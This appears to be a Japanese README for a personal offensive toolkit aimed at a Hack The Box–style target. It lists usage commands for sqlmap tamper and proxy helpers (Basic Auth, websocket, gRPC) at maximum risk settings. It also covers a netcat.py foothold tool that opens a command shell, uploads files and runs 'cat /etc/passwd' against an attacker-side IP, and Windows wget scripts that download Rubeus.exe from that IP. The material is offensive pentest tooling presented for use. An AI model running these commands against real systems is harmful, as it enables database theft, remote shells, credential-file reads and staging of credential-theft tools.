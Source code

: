 # side_tool
個人的ハックツールに付与できる拡張機能コードリスト

## sqlmap_basic_auth.py
sqlmapコマンドのBasic Auth Base64 Request拡張機能コード
<br/>
コマンド例
```
sqlmap -r ./req --tamper=./sqlmap_basic_auth.py --ignore-code=401 --level 5 --risk 3
```
リクエスト例
```
#req
GET http://example.htb/ HTTP/1.1
Content-Length: 0

...
Authorization: Basic *
```
## sqlmap_websocket.py
websocketのプロトコルを介したsqlmapの実行。プロキシ`localhost:8081`を建て、そこからSQLi対象へwebsocket送ります。
<br/>
コマンド例
```
# websocketインストール
pip install websockets

# プロキシ起動
python3 sqlmap_websocket.py

# sqlmap実行
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

## http2grpc.go
gRPCのPort50051向けにgrpcurlコマンドを使ってペイロードを送信するHTTPプロキシツール。HTTPのPortは8051。<br/>
コマンド例:
```
# grpcurl インストール
$ go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# go mod整理
$ go mod init sqlmap/grpc
$ go mod tidy

# 起動
$ go run http2grpc.go

# sqlmap実行
sqlmap -u "http://localhost:8051/?id=1" --batch --dump
```
## netcat.py
Python環境が存在（ほぼある）するターゲットで簡易的に足場を構築するためのもの

```
# 対話型コマンドシェルの起動
netcat.py -t 10.11.14.13 -p 4444 -l -c
# ファイルのアップロード
netcat.py -t 10.11.14.13 -p 4444 -l -u=mytest.whatisup
# コマンドの実行
netcat.py -t 10.11.14.13 -p 4444 -l -e=\"cat /etc/passwd\"
# 通信先サーバーの135番ポートに文字列を送信
echo 'ABCDEFGHI' | ./netcat.py -t 10.11.14.13 -p 135
# サーバーに接続
netcat.py -t 10.11.14.13 -p 4444
```
## windows_wget_script
Windows標準で組み込まれているスクリプト言語を使ってWgetを実行する物

コマンド例：
```
#Javascript
cscript.exe /nologo wget.js hxxp://10.11.14.13/Rubeus.exe Rubeus.exe

#VBS
cscript.exe /nologo wget.vbs hxxp://10.11.14.13/Rubeus.exe Rubeus.exe
```
